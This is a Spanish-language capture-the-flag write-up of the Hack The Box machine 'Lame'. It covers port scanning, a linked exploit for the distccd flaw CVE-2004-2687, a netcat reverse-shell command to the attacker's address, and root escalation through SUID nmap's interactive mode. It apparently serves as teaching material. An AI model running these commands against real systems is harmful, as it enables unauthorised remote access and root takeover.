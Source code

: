 ```yaml
---
title: Lame
published: true
categories: [Linux,Medium] 
tags: [CVE-2004-2687, SUID abuse]

image:
  path: https://user-images.githubusercontent.com/55555187/182438375-f8bc8639-3cfa-4ab9-86e2-216e908d73ba.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Lame es una <font color="#98E256">máquina Easy</font> de temática <font color="#D35400">Linux</font> en la que se toca el CVE-2004-2687 sobre el servicio distccd y la explotación del permiso SUID sobre nmap para lograr una shell como root.

## Reconocimiento y explotación

```bash
sudo nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.3
```

![2022-07-29-16-53-54-image](https://user-images.githubusercontent.com/55555187/182438597-5014882a-f246-401c-adb9-386c52202e29.png)

```bash
sudo nmap -sVC -p21,22,139,445,3632 -oN portSV 10.10.10.3 
```

![2022-07-29-18-08-05-image](https://user-images.githubusercontent.com/55555187/182438606-b7b00aea-5c15-4e1e-8c89-9aef315ab671.png)

El servicio FTP permite acceder como el usuario **anonymous** pero no tiene nada.

En el servicio **Samba** hay una serie de directorios pero solo podemos acceder a **/tmp** en el cual tenemos permisos de escritura y lectura.

```bash
smbmap -H 10.10.10.3 -R
```

![2022-07-29-18-10-24-image](https://user-images.githubusercontent.com/55555187/182438605-c5911c2b-8bbd-4906-bf95-f0cadf5f73e3.png)

Sin embargo, los archivos del directorio no tienen nada relevante.

Por otra parte, el puerto 3632 está ejecutando **distccd** que tiene una serie de vulnerabilidades asociadas. En concreto, voy a hacer uso del **CVE-2004-2687** que parece explotar un buffer overflow que permite ejecutar comandos como el usuario daemon. 

Buscando en Github encuentro un script en Python 2 que permite explotar el CVE [(CVE-2004-2687) DistCC Daemon - Command Execution (Python)](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855).

![2022-07-29-16-53-25-image](https://user-images.githubusercontent.com/55555187/182438601-0a0098d1-0d82-4319-b7fd-f0639e1e8f3a.png)

Como tengo RCE compruebo que la máquina tiene netcat mediante el comando *which netcat* y que tiene el parámetro -e habilitado mediante el comando *nc -h*. 

Como se cumplen ambas condiciones, puedo intentar entablarme una reverse shell:

```bash
nc -e /bin/bash 10.10.14.4 443
```

![2022-07-29-18-14-28-image](https://user-images.githubusercontent.com/55555187/182438603-c6a7ca60-1754-41b1-9130-80566839ae67.png)

Al hacer el tratamiento de la tty por algún motivo se queda pillado por lo que decido seguir la explotación con una shell un tanto rancia.

## Elevación de privilegios

Compruebo si el usuario está en algún grupo relevante pero no es el caso.

Reviso el **/etc/passwd** y veo que los únicos usuarios con una /bin/bash asociada son daemon, makis y root.

Trato de lanzar pspy para enumerar tareas cron pero da un error raro al ejecutarse por lo que decido tirar de linPEAS.

A través de linPEAS descubro que nmap tiene permisos SUID lo que supone un vector para escalar privilegios usando el modo interactivo.

![2022-07-29-17-26-03-image](https://user-images.githubusercontent.com/55555187/182438596-4d653dc6-8a49-4f3a-8631-284db23b14ef.png)

El modo interactivo permite, entre muchas otras cosas, spawnear una shell la cual, al tener nmap el bit SUID activo, se genera como root.

![image](https://user-images.githubusercontent.com/55555187/183289289-09b6242d-d65f-46f3-9037-9ec844563c69.png)

**Nota:** durante la fase de elevación de privilegios tuve que cambiar de servidor ya que en el que estaba, nmap daba error debido a que la persona que explotó la máquina anteriormente no cerró el modo interactivo antes de cerrar la shell, provocando un fallo EOF a todo el que intente abrir la sesión interactiva de nmap :/
